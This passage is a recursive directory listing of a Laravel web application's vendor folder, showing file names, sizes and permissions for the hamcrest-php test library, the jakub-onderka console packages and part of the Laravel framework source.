-rw-r--r--  1 www-data www-data 1.1K May 11  2015 IsSame.php
-rw-r--r--  1 www-data www-data 1.7K May 11  2015 IsTypeOf.php
-rw-r--r--  1 www-data www-data 2.4K May 11  2015 Set.php
-rw-r--r--  1 www-data www-data  920 May 11  2015 ShortcutCombination.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/hamcrest/Hamcrest/Internal:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 10 www-data www-data 4.0K May 11  2015 ..
-rw-r--r--  1 www-data www-data  482 May 11  2015 SelfDescribingValue.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/hamcrest/Hamcrest/Number:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 10 www-data www-data 4.0K May 11  2015 ..
-rw-r--r--  1 www-data www-data 1.7K May 11  2015 IsCloseTo.php
-rw-r--r--  1 www-data www-data 2.9K May 11  2015 OrderingComparison.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/hamcrest/Hamcrest/Text:
total 48K
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 10 www-data www-data 4.0K May 11  2015 ..
-rw-r--r--  1 www-data www-data 1.8K May 11  2015 IsEmptyString.php
-rw-r--r--  1 www-data www-data 1.2K May 11  2015 IsEqualIgnoringCase.php
-rw-r--r--  1 www-data www-data 1.6K May 11  2015 IsEqualIgnoringWhiteSpace.php
-rw-r--r--  1 www-data www-data  747 May 11  2015 MatchesPattern.php
-rw-r--r--  1 www-data www-data  850 May 11  2015 StringContains.php
-rw-r--r--  1 www-data www-data  810 May 11  2015 StringContainsIgnoringCase.php
-rw-r--r--  1 www-data www-data 1.6K May 11  2015 StringContainsInOrder.php
-rw-r--r--  1 www-data www-data  755 May 11  2015 StringEndsWith.php
-rw-r--r--  1 www-data www-data  758 May 11  2015 StringStartsWith.php
-rw-r--r--  1 www-data www-data 1.1K May 11  2015 SubstringMatcher.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/hamcrest/Hamcrest/Type:
total 48K
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 10 www-data www-data 4.0K May 11  2015 ..
-rw-r--r--  1 www-data www-data  473 May 11  2015 IsArray.php
-rw-r--r--  1 www-data www-data  493 May 11  2015 IsBoolean.php
-rw-r--r--  1 www-data www-data  568 May 11  2015 IsCallable.php
-rw-r--r--  1 www-data www-data  555 May 11  2015 IsDouble.php
-rw-r--r--  1 www-data www-data  494 May 11  2015 IsInteger.php
-rw-r--r--  1 www-data www-data  503 May 11  2015 IsNumeric.php
-rw-r--r--  1 www-data www-data  488 May 11  2015 IsObject.php
-rw-r--r--  1 www-data www-data  489 May 11  2015 IsResource.php
-rw-r--r--  1 www-data www-data  576 May 11  2015 IsScalar.php
-rw-r--r--  1 www-data www-data  477 May 11  2015 IsString.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/hamcrest/Hamcrest/Xml:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 10 www-data www-data 4.0K May 11  2015 ..
-rw-r--r--  1 www-data www-data 6.0K May 11  2015 HasXPath.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/tests:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 9 www-data www-data 4.0K May 11  2015 Hamcrest
-rw-r--r-- 1 www-data www-data  462 May 11  2015 bootstrap.php
-rw-r--r-- 1 www-data www-data  648 May 11  2015 phpunit.xml.dist

/var/www/laravel/vendor/hamcrest/hamcrest-php/tests/Hamcrest:
total 68K
drwxr-xr-x 9 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 3 www-data www-data 4.0K May 11  2015 ..
-rw-r--r-- 1 www-data www-data 1.9K May 11  2015 AbstractMatcherTest.php
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 Array
-rw-r--r-- 1 www-data www-data  535 May 11  2015 BaseMatcherTest.php
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 Collection
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 Core
-rw-r--r-- 1 www-data www-data 1.7K May 11  2015 FeatureMatcherTest.php
-rw-r--r-- 1 www-data www-data 7.2K May 11  2015 MatcherAssertTest.php
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 Number
-rw-r--r-- 1 www-data www-data 5.4K May 11  2015 StringDescriptionTest.php
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 Text
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 Type
-rw-r--r-- 1 www-data www-data 2.6K May 11  2015 UtilTest.php
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 Xml

/var/www/laravel/vendor/hamcrest/hamcrest-php/tests/Hamcrest/Array:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 9 www-data www-data 4.0K May 11  2015 ..
-rw-r--r-- 1 www-data www-data 1.7K May 11  2015 IsArrayContainingInAnyOrderTest.php
-rw-r--r-- 1 www-data www-data 1.5K May 11  2015 IsArrayContainingInOrderTest.php
-rw-r--r-- 1 www-data www-data 1.6K May 11  2015 IsArrayContainingKeyTest.php
-rw-r--r-- 1 www-data www-data 1.1K May 11  2015 IsArrayContainingKeyValuePairTest.php
-rw-r--r-- 1 www-data www-data 1.3K May 11  2015 IsArrayContainingTest.php
-rw-r--r-- 1 www-data www-data 2.5K May 11  2015 IsArrayTest.php
-rw-r--r-- 1 www-data www-data 1.2K May 11  2015 IsArrayWithSizeTest.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/tests/Hamcrest/Collection:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 9 www-data www-data 4.0K May 11  2015 ..
-rw-r--r-- 1 www-data www-data 1.9K May 11  2015 IsEmptyTraversableTest.php
-rw-r--r-- 1 www-data www-data 1.4K May 11  2015 IsTraversableWithSizeTest.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/tests/Hamcrest/Core:
total 84K
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 9 www-data www-data 4.0K May 11  2015 ..
-rw-r--r-- 1 www-data www-data 1.6K May 11  2015 AllOfTest.php
-rw-r--r-- 1 www-data www-data 2.5K May 11  2015 AnyOfTest.php
-rw-r--r-- 1 www-data www-data 1.8K May 11  2015 CombinableMatcherTest.php
-rw-r--r-- 1 www-data www-data 1.1K May 11  2015 DescribedAsTest.php
-rw-r--r-- 1 www-data www-data  834 May 11  2015 EveryTest.php
-rw-r--r-- 1 www-data www-data 2.4K May 11  2015 HasToStringTest.php
-rw-r--r-- 1 www-data www-data  684 May 11  2015 IsAnythingTest.php
-rw-r--r-- 1 www-data www-data 2.6K May 11  2015 IsCollectionContainingTest.php
-rw-r--r-- 1 www-data www-data 2.8K May 11  2015 IsEqualTest.php
-rw-r--r-- 1 www-data www-data  769 May 11  2015 IsIdenticalTest.php
-rw-r--r-- 1 www-data www-data 1.8K May 11  2015 IsInstanceOfTest.php
-rw-r--r-- 1 www-data www-data  998 May 11  2015 IsNotTest.php
-rw-r--r-- 1 www-data www-data  484 May 11  2015 IsNullTest.php
-rw-r--r-- 1 www-data www-data  795 May 11  2015 IsSameTest.php
-rw-r--r-- 1 www-data www-data 1.1K May 11  2015 IsTest.php
-rw-r--r-- 1 www-data www-data 1.5K May 11  2015 IsTypeOfTest.php
-rw-r--r-- 1 www-data www-data  231 May 11  2015 SampleBaseClass.php
-rw-r--r-- 1 www-data www-data   96 May 11  2015 SampleSubClass.php
-rw-r--r-- 1 www-data www-data 3.2K May 11  2015 SetTest.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/tests/Hamcrest/Number:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 9 www-data www-data 4.0K May 11  2015 ..
-rw-r--r-- 1 www-data www-data  801 May 11  2015 IsCloseToTest.php
-rw-r--r-- 1 www-data www-data 1000 May 11  2015 OrderingComparisonTest.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/tests/Hamcrest/Text:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 9 www-data www-data 4.0K May 11  2015 ..
-rw-r--r-- 1 www-data www-data 2.3K May 11  2015 IsEmptyStringTest.php
-rw-r--r-- 1 www-data www-data 1.2K May 11  2015 IsEqualIgnoringCaseTest.php
-rw-r--r-- 1 www-data www-data 1.4K May 11  2015 IsEqualIgnoringWhiteSpaceTest.php
-rw-r--r-- 1 www-data www-data  859 May 11  2015 MatchesPatternTest.php
-rw-r--r-- 1 www-data www-data 2.5K May 11  2015 StringContainsIgnoringCaseTest.php
-rw-r--r-- 1 www-data www-data 1.3K May 11  2015 StringContainsInOrderTest.php
-rw-r--r-- 1 www-data www-data 2.6K May 11  2015 StringContainsTest.php
-rw-r--r-- 1 www-data www-data 1.9K May 11  2015 StringEndsWithTest.php
-rw-r--r-- 1 www-data www-data 1.9K May 11  2015 StringStartsWithTest.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/tests/Hamcrest/Type:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 9 www-data www-data 4.0K May 11  2015 ..
-rw-r--r-- 1 www-data www-data  937 May 11  2015 IsArrayTest.php
-rw-r--r-- 1 www-data www-data  951 May 11  2015 IsBooleanTest.php
-rw-r--r-- 1 www-data www-data 2.8K May 11  2015 IsCallableTest.php
-rw-r--r-- 1 www-data www-data  950 May 11  2015 IsDoubleTest.php
-rw-r--r-- 1 www-data www-data  985 May 11  2015 IsIntegerTest.php
-rw-r--r-- 1 www-data www-data 1.6K May 11  2015 IsNumericTest.php
-rw-r--r-- 1 www-data www-data  905 May 11  2015 IsObjectTest.php
-rw-r--r-- 1 www-data www-data  922 May 11  2015 IsResourceTest.php
-rw-r--r-- 1 www-data www-data 1.2K May 11  2015 IsScalarTest.php
-rw-r--r-- 1 www-data www-data  943 May 11  2015 IsStringTest.php

/var/www/laravel/vendor/hamcrest/hamcrest-php/tests/Hamcrest/Xml:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K May 11  2015 .
drwxr-xr-x 9 www-data www-data 4.0K May 11  2015 ..
-rw-r--r-- 1 www-data www-data 5.0K May 11  2015 HasXPathTest.php

/var/www/laravel/vendor/jakub-onderka:
total 16K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 php-console-color
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 php-console-highlighter

/var/www/laravel/vendor/jakub-onderka/php-console-color:
total 40K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   27 Apr  8  2014 .gitignore
-rw-r--r-- 1 www-data www-data  201 Apr  8  2014 .travis.yml
-rw-r--r-- 1 www-data www-data 3.9K Apr  8  2014 build.xml
-rw-r--r-- 1 www-data www-data  618 Apr  8  2014 composer.json
-rw-r--r-- 1 www-data www-data 1006 Apr  8  2014 example.php
-rw-r--r-- 1 www-data www-data  373 Apr  8  2014 phpunit.xml
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 src
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 tests

/var/www/laravel/vendor/jakub-onderka/php-console-color/src:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 JakubOnderka

/var/www/laravel/vendor/jakub-onderka/php-console-color/src/JakubOnderka:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  8  2014 PhpConsoleColor

/var/www/laravel/vendor/jakub-onderka/php-console-color/src/JakubOnderka/PhpConsoleColor:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  8  2014 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 ..
-rw-r--r-- 1 www-data www-data 6.3K Apr  8  2014 ConsoleColor.php
-rw-r--r-- 1 www-data www-data  211 Apr  8  2014 InvalidStyleException.php

/var/www/laravel/vendor/jakub-onderka/php-console-color/tests:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 JakubOnderka
-rw-r--r-- 1 www-data www-data   65 Apr  8  2014 bootstrap.php

/var/www/laravel/vendor/jakub-onderka/php-console-color/tests/JakubOnderka:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  8  2014 PhpConsoleColor

/var/www/laravel/vendor/jakub-onderka/php-console-color/tests/JakubOnderka/PhpConsoleColor:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  8  2014 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  8  2014 ..
-rw-r--r-- 1 www-data www-data 5.3K Apr  8  2014 ConsoleColorTest.php

/var/www/laravel/vendor/jakub-onderka/php-console-highlighter:
total 48K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   39 Apr 20  2015 .gitignore
-rw-r--r-- 1 www-data www-data  242 Apr 20  2015 .travis.yml
-rw-r--r-- 1 www-data www-data 1.1K Apr 20  2015 LICENSE
-rw-r--r-- 1 www-data www-data  879 Apr 20  2015 README.md
-rw-r--r-- 1 www-data www-data 3.9K Apr 20  2015 build.xml
-rw-r--r-- 1 www-data www-data  713 Apr 20  2015 composer.json
drwxr-xr-x 2 www-data www-data 4.0K Apr 20  2015 examples
-rw-r--r-- 1 www-data www-data  373 Apr 20  2015 phpunit.xml
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 src
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 tests

/var/www/laravel/vendor/jakub-onderka/php-console-highlighter/examples:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr 20  2015 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  300 Apr 20  2015 snippet.php
-rw-r--r-- 1 www-data www-data  295 Apr 20  2015 whole_file.php
-rw-r--r-- 1 www-data www-data  310 Apr 20  2015 whole_file_line_numbers.php

/var/www/laravel/vendor/jakub-onderka/php-console-highlighter/src:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 JakubOnderka

/var/www/laravel/vendor/jakub-onderka/php-console-highlighter/src/JakubOnderka:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr 20  2015 PhpConsoleHighlighter

/var/www/laravel/vendor/jakub-onderka/php-console-highlighter/src/JakubOnderka/PhpConsoleHighlighter:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr 20  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 ..
-rw-r--r-- 1 www-data www-data 7.5K Apr 20  2015 Highlighter.php

/var/www/laravel/vendor/jakub-onderka/php-console-highlighter/tests:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 JakubOnderka
-rw-r--r-- 1 www-data www-data   65 Apr 20  2015 bootstrap.php

/var/www/laravel/vendor/jakub-onderka/php-console-highlighter/tests/JakubOnderka:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr 20  2015 PhpConsoleHighligter

/var/www/laravel/vendor/jakub-onderka/php-console-highlighter/tests/JakubOnderka/PhpConsoleHighligter:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr 20  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Apr 20  2015 ..
-rw-r--r-- 1 www-data www-data 5.5K Apr 20  2015 HigligterTest.php

/var/www/laravel/vendor/laravel:
total 16K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 framework
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 tinker

/var/www/laravel/vendor/laravel/framework:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 LICENSE.md
-rw-r--r-- 1 www-data www-data 3.1K Apr  3  2017 README.md
-rw-r--r-- 1 www-data www-data 4.9K Apr  3  2017 composer.json
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 src

/var/www/laravel/vendor/laravel/framework/src:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 Illuminate

/var/www/laravel/vendor/laravel/framework/src/Illuminate:
total 124K
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  8 www-data www-data 4.0K Apr  3  2017 Auth
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Broadcasting
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Bus
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 Cache
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Config
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 Console
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Container
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 Contracts
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Cookie
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 Database
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Encryption
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Filesystem
drwxr-xr-x 14 www-data www-data 4.0K Apr  3  2017 Foundation
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Hashing
drwxr-xr-x  6 www-data www-data 4.0K Apr  3  2017 Http
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Log
drwxr-xr-x  5 www-data www-data 4.0K Apr  3  2017 Mail
drwxr-xr-x  7 www-data www-data 4.0K Apr  3  2017 Notifications
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Pagination
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Pipeline
drwxr-xr-x  8 www-data www-data 4.0K Apr  3  2017 Queue
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 Redis
drwxr-xr-x  7 www-data www-data 4.0K Apr  3  2017 Routing
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 Session
drwxr-xr-x  6 www-data www-data 4.0K Apr  3  2017 Support
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Translation
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 Validation
drwxr-xr-x  6 www-data www-data 4.0K Apr  3  2017 View

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth:
total 120K
drwxr-xr-x  8 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Access
-rwxr-xr-x  1 www-data www-data 7.3K Apr  3  2017 AuthManager.php
-rwxr-xr-x  1 www-data www-data 2.4K Apr  3  2017 AuthServiceProvider.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 Authenticatable.php
-rw-r--r--  1 www-data www-data  688 Apr  3  2017 AuthenticationException.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Console
-rw-r--r--  1 www-data www-data 1.9K Apr  3  2017 CreatesUserProviders.php
-rwxr-xr-x  1 www-data www-data 4.1K Apr  3  2017 DatabaseUserProvider.php
-rwxr-xr-x  1 www-data www-data 4.4K Apr  3  2017 EloquentUserProvider.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
-rwxr-xr-x  1 www-data www-data 2.6K Apr  3  2017 GenericUser.php
-rw-r--r--  1 www-data www-data 1.7K Apr  3  2017 GuardHelpers.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Middleware
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Notifications
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Passwords
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 Recaller.php
-rw-r--r--  1 www-data www-data 1.8K Apr  3  2017 RequestGuard.php
-rw-r--r--  1 www-data www-data  21K Apr  3  2017 SessionGuard.php
-rw-r--r--  1 www-data www-data 3.0K Apr  3  2017 TokenGuard.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Access:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  116 Apr  3  2017 AuthorizationException.php
-rw-r--r-- 1 www-data www-data  13K Apr  3  2017 Gate.php
-rw-r--r-- 1 www-data www-data  636 Apr  3  2017 HandlesAuthorization.php
-rw-r--r-- 1 www-data www-data  682 Apr  3  2017 Response.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Console:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  740 Apr  3  2017 ClearResetsCommand.php
-rw-r--r-- 1 www-data www-data 3.1K Apr  3  2017 MakeAuthCommand.php
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 stubs

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Console/stubs:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 make

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Console/stubs/make:
total 20K
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 controllers
-rw-r--r-- 1 www-data www-data   63 Apr  3  2017 routes.stub
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 views

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Console/stubs/make/controllers:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  461 Apr  3  2017 HomeController.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Console/stubs/make/views:
total 20K
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 auth
-rw-r--r-- 1 www-data www-data  411 Apr  3  2017 home.stub
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 layouts

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Console/stubs/make/views/auth:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 3.0K Apr  3  2017 login.stub
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 passwords
-rw-r--r-- 1 www-data www-data 3.5K Apr  3  2017 register.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Console/stubs/make/views/auth/passwords:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K Apr  3  2017 email.stub
-rw-r--r-- 1 www-data www-data 3.5K Apr  3  2017 reset.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Console/stubs/make/views/layouts:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 3.4K Apr  3  2017 app.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Events:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  557 Apr  3  2017 Attempting.php
-rw-r--r-- 1 www-data www-data  485 Apr  3  2017 Authenticated.php
-rw-r--r-- 1 www-data www-data  640 Apr  3  2017 Failed.php
-rw-r--r-- 1 www-data www-data  428 Apr  3  2017 Lockout.php
-rw-r--r-- 1 www-data www-data  672 Apr  3  2017 Login.php
-rw-r--r-- 1 www-data www-data  478 Apr  3  2017 Logout.php
-rw-r--r-- 1 www-data www-data  482 Apr  3  2017 Registered.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Middleware:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Apr  3  2017 Authenticate.php
-rw-r--r-- 1 www-data www-data  856 Apr  3  2017 AuthenticateWithBasicAuth.php
-rw-r--r-- 1 www-data www-data 2.5K Apr  3  2017 Authorize.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Notifications:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 ResetPassword.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Auth/Passwords:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  602 Apr  3  2017 CanResetPassword.php
-rwxr-xr-x 1 www-data www-data 5.0K Apr  3  2017 DatabaseTokenRepository.php
-rwxr-xr-x 1 www-data www-data 6.7K Apr  3  2017 PasswordBroker.php
-rw-r--r-- 1 www-data www-data 3.6K Apr  3  2017 PasswordBrokerManager.php
-rwxr-xr-x 1 www-data www-data 1.1K Apr  3  2017 PasswordResetServiceProvider.php
-rwxr-xr-x 1 www-data www-data  934 Apr  3  2017 TokenRepositoryInterface.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Broadcasting:
total 60K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  470 Apr  3  2017 BroadcastController.php
-rw-r--r--  1 www-data www-data 2.3K Apr  3  2017 BroadcastEvent.php
-rw-r--r--  1 www-data www-data  127 Apr  3  2017 BroadcastException.php
-rw-r--r--  1 www-data www-data 7.5K Apr  3  2017 BroadcastManager.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 BroadcastServiceProvider.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Broadcasters
-rw-r--r--  1 www-data www-data  507 Apr  3  2017 Channel.php
-rw-r--r--  1 www-data www-data  669 Apr  3  2017 InteractsWithSockets.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 PendingBroadcast.php
-rw-r--r--  1 www-data www-data  294 Apr  3  2017 PresenceChannel.php
-rw-r--r--  1 www-data www-data  292 Apr  3  2017 PrivateChannel.php
-rw-r--r--  1 www-data www-data 1.0K Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Broadcasting/Broadcasters:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 5.5K Apr  3  2017 Broadcaster.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 LogBroadcaster.php
-rw-r--r-- 1 www-data www-data  462 Apr  3  2017 NullBroadcaster.php
-rw-r--r-- 1 www-data www-data 3.1K Apr  3  2017 PusherBroadcaster.php
-rw-r--r-- 1 www-data www-data 2.7K Apr  3  2017 RedisBroadcaster.php

